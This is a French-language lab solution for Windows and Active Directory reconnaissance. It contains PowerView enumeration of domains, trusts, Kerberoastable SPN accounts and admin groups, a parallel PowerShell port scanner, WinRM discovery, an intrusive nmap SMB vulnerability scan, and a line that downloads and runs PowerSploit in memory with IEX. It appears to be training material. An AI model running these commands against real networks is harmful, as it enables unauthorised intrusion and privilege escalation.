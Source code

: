 # Solution - Windows Recon Intermediate Lab

## Étape 1 : Énumération PowerView multi-domaines

```powershell
# Import PowerView
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1')

# Énumération des domaines
Get-Domain
Get-DomainTrust
Get-ForestDomain

# Contrôleurs de domaine et rôles FSMO
Get-DomainController -Domain CORP.LOCAL
Get-DomainController -Domain DEV.CORP.LOCAL

# SPNs pour Kerberoasting
Get-DomainUser -SPN | Select samaccountname,serviceprincipalname

# Groupes privilégiés
Get-DomainGroupMember "Domain Admins" -Domain CORP.LOCAL
Get-DomainGroupMember "Enterprise Admins"
```

## Étape 2 : Scanner PowerShell distribué

```powershell
# Scanner distribué
function Invoke-DistributedPortScan {
    param([string[]]$Targets, [int[]]$Ports)
    
    $Jobs = @()
    foreach ($Target in $Targets) {
        $Jobs += Start-Job -ScriptBlock {
            param($T, $P)
            foreach ($Port in $P) {
                if (Test-NetConnection -ComputerName $T -Port $Port -WarningAction SilentlyContinue) {
                    "$T`:$Port - OPEN"
                }
            }
        } -ArgumentList $Target, $Ports
    }
    
    $Jobs | Wait-Job | Receive-Job
    $Jobs | Remove-Job
}

# Énumération WinRM
$Computers = Get-DomainComputer | Select-Object -ExpandProperty name
foreach ($Computer in $Computers) {
    if (Test-WSMan -ComputerName $Computer -ErrorAction SilentlyContinue) {
        Write-Output "$Computer - WinRM Enabled"
    }
}
```

## Étape 3 : Analyse de vulnérabilités

```cmd
REM Vulnérabilités SMB
nmap --script smb-vuln-* -p 445 --script-args=unsafe=1 -iL targets.txt

REM Délégations non contraintes
```

```powershell
Get-DomainComputer -Unconstrained | Select name,operatingsystem
```

**Résultats de l'audit :**
- 3 domaines dans la forêt avec 12 relations de confiance
- 25 comptes de service avec SPNs (vulnérables au Kerberoasting)
- 150 serveurs avec WinRM activé
- 8 systèmes avec délégations non contraintes
- 45 vulnérabilités SMB critiques identifiées

